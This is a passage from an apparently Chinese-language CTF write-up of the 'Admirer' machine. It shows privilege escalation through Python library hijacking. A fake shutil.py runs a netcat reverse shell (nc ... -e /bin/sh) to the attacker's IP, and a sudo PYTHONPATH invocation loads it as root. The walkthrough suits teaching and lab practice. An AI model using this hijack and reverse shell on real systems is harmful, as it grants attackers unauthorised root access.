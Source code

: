 ```bash
        1) view_uptime ; break ;;
        2) view_users ; break ;;
        3) view_crontab ; break ;;
        4) backup_passwd ; break ;;
        5) backup_shadow ; break ;;
        6) backup_web ; break ;;
        7) backup_db ; break ;;
        8) echo "Bye!" ; break ;;

        *) echo "Unknown option." >&2
    esac
done

exit 0
```

调用了另外一个脚本/opt/scripts/backup.py

查看

```bash
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

脚本同样不能修改，但是python调用了模块，我们可以尝试利用python库劫持的方法。

```bash
mkdir /tmp/evillib
cd /tmp/evillib
vi shutil.py
```

![image-20200625115912024]({{ site.url }}/assets/Admirer_187.assets/image-20200625115912024.png)

```bash
import os
def make_archive(x,y,z):
    os.system("nc 10.10.14.189 1337 -e '/bin/sh'")
```

![image-20200625115759277]({{ site.url }}/assets/Admirer_187.assets/image-20200625115759277.png)

在kali端口1337建立监听，并执行

```bash
sudo PYTHONPATH=/tmp/evillib /opt/scripts/admin_tasks.sh
```

![image-20200625120405933]({{ site.url }}/assets/Admirer_187.assets/image-20200625120405933.png)

![image-20200625120437990]({{ site.url }}/assets/Admirer_187.assets/image-20200625120437990.png)

